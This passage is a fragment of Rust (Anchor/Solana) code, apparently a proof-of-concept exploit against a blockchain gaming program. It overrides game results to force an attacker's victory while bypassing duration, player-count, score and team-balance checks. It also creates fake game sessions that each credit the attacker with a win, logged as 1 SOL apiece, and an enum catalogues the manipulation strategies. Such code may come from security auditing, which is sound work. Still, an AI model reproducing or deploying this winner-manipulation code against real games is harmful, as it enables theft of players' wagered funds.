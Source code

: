 ```rust
        // Force victory with bypassed conditions
        game_result.winning_team = 0; // Red team (attacker's team)
        game_result.team_red_score = 1;
        game_result.team_blue_score = 0;
        game_result.individual_scores = minimal_scores;

        emit!(ConditionBypassExecuted {
            attacker,
            bypassed_conditions: vec![
                "minimum_game_duration".to_string(),
                "minimum_player_count".to_string(),
                "score_requirements".to_string(),
                "team_balance".to_string(),
            ],
        });

        Ok(())
    }

    fn execute_cross_game_winning(ctx: Context<WinnerManipulation>) -> Result<()> {
        let attacker = ctx.accounts.attacker.key();

        // Manipulate multiple game sessions simultaneously
        let session_count = 10u8;

        for session_id in 0..session_count {
            // Create fake game session
            let fake_session_key = generate_fake_session_key(session_id)?;

            // Declare attacker as winner of each session
            let fake_result = GameResult {
                game_session: fake_session_key,
                winning_team: 0,
                team_red_score: 1000,
                team_blue_score: 0,
                individual_scores: HashMap::from([(attacker, 1000u32)]),
                winner_determination_method: WinnerMethod::HighestScore,
            };

            // Submit fake results
            process_fake_game_result(fake_result)?;
        }

        emit!(CrossGameWinningExecuted {
            attacker,
            fake_sessions_won: session_count,
            total_fake_winnings: session_count as u64 * 1_000_000_000, // 1 SOL per win
        });

        Ok(())
    }
}

#[derive(AnchorSerialize, AnchorDeserialize, Clone)]
pub enum WinnerManipulationStrategy {
    ScoreInflation { target_score: u32 },
    ResultOverride { desired_winner: Pubkey },
    ConditionBypass,
    CrossGameWinning,
}

// Helper functions for winner manipulation
fn determine_winner_internal(scores: &HashMap<Pubkey, u32>) -> Result<Pubkey> {
```